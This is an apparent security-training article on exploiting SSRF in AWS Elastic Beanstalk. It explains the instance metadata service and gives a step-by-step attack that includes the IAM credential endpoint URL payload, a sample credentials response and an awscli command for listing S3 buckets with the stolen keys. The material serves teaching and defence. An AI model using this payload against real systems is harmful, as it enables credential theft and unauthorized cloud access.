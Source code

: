 ```yaml
---
title: Exploiting SSRF in AWS Elastic Beanstalk
description: Learn how to exploit SSRF vulnerabilities in AWS Elastic Beanstalk to
  access sensitive metadata and IAM credentials.
keywords:
- SSRF
- AWS Elastic Beanstalk
- IAM role credentials
- cloud exploitation
- AWS metadata service
- privilege escalation
- cloud security
---
```


# Elastic Beanstalk

## Context

This article explores how to exploit Server-Side Request Forgery (SSRF) vulnerabilities in AWS Elastic Beanstalk environments. The primary objective is to demonstrate how attackers can access instance metadata and leverage IAM credentials to perform further actions within the AWS cloud environment. It assumes intermediate knowledge of cloud service models, HTTP request structures, and metadata service endpoints, as well as familiarity with SSRF and cloud metadata service exploitation techniques.

## Theory

### Elastic Beanstalk Metadata Service Exposure

Elastic Beanstalk is a service provided by AWS that simplifies the deployment and management of applications. These applications run on EC2 instances, each equipped with access to the AWS instance metadata service located at `http://169.254.169.254`. This service can expose sensitive information, which includes IAM role credentials assigned to the instance. If a web application hosted on Elastic Beanstalk is vulnerable to SSRF, it is possible for attackers to relay requests to this metadata service, potentially gaining unauthorized access to privileged information.

### IAM Roles and Privilege Implications

In AWS Elastic Beanstalk environments, EC2 instances are generally assigned an IAM role, such as `aws-elasticbeanstalk-ec2-role`, which provides the necessary permissions for application operations. If an attacker manages to extract these credentials through SSRF, the compromised credentials could then be used to access AWS APIs, S3 buckets, or even escalate privileges within the AWS account.

### SSRF Exploitation Flow in Elastic Beanstalk

The exploitation typically follows a sequence where the attacker identifies an SSRF vulnerability, targets the metadata service endpoint, extracts IAM role credentials, and then leverages these credentials for further actions within the AWS environment.

```mermaid
flowchart TD
    SSRF[SSRF Vulnerability in App] --> Metadata[Request to 169.254.169.254]
    Metadata --> Credentials[Extract IAM Role Credentials]
    Credentials --> AWSAPI[Use Credentials for AWS API Access]
```

## Practice

### SSRF to Extract Elastic Beanstalk IAM Role Credentials

- **Identify an SSRF injection point in the Elastic Beanstalk-hosted application.**  
  Locate a user-controllable URL parameter or HTTP header that can be manipulated to trigger server-side requests.

- **Target the IAM role credentials endpoint via SSRF.**  
  ```plaintext
  http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanstalk-ec2-role
  ```
  Aim to relay requests from the application to the IAM role credential endpoint through SSRF.

- **Send a crafted request to the SSRF endpoint with the above payload.**  
  Use a proxy tool or direct HTTP request to inject the metadata URL into the vulnerable application endpoint.

- **Successful exploitation returns temporary AWS credentials:**
  ```json
  {
    "Code" : "Success",
    "LastUpdated" : "...",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "AKIA...",
    "SecretAccessKey" : "...",
    "Token" : "...",
    "Expiration" : "..."
  }
  ```

- **Use the extracted credentials to enumerate accessible S3 buckets:**
  ```bash
  aws s3 ls --profile beanstalk-creds
  ```

The above steps demonstrate how an attacker can gain AWS IAM credentials, leading to potential privilege escalation or unauthorized access to AWS resources.

## Tools 

- **Burp Suite**
- **awscli**
- **curl** 

This article outlines the process of exploiting SSRF in AWS Elastic Beanstalk environments, offering a practical guide to understand the risk and consequences associated with this vulnerability. The ability to extract IAM credentials can lead to significant unauthorized access within AWS, emphasizing the importance of securing applications against SSRF.